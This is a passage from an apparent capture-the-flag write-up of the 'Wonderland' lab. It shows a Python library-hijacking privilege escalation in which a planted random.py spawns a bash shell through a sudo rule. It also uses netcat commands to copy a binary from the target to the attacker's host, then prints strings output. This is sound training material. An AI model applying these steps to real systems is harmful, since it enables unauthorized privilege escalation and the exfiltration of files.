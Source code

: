 
It is importing the python library "random". Looks like Python Library hijacking to me. To exploit this just create a python file in the same directory with the name "random.py" with malicious code inside. I go ahead and create a "random.py" file with the following content:

{%highlight text%}
import os
os.system("/bin/bash")
{%endhighlight%}

and now when we run the command that we got from "`sudo -l`"

{%highlight text%}
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
{%endhighlight%}

We are greeted with shell for rabbit user. Next we see a binary named "teaParty" inside the rabbit's home directory. It is owned by the user hatter and we can run it. Running it gives nothing interesting So I guess we are doing reverse engineering now.

Transfer the binary to my machine using the netcat method like:

On my machine
{%highlight text%}
nc -lvp 1234 > teaParty
{%endhighlight%}

On the target machine
{%highlight text%}
nc YourIP 1234 < teaParty
{%endhighlight%}

Just press ctrl+c after some time and you can see the binary is transferred to your machine. Now one of the basics in reverse engineering is using the "strings" command on it.

{%highlight text%}
strings teaParty

setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
{%endhighlight%}
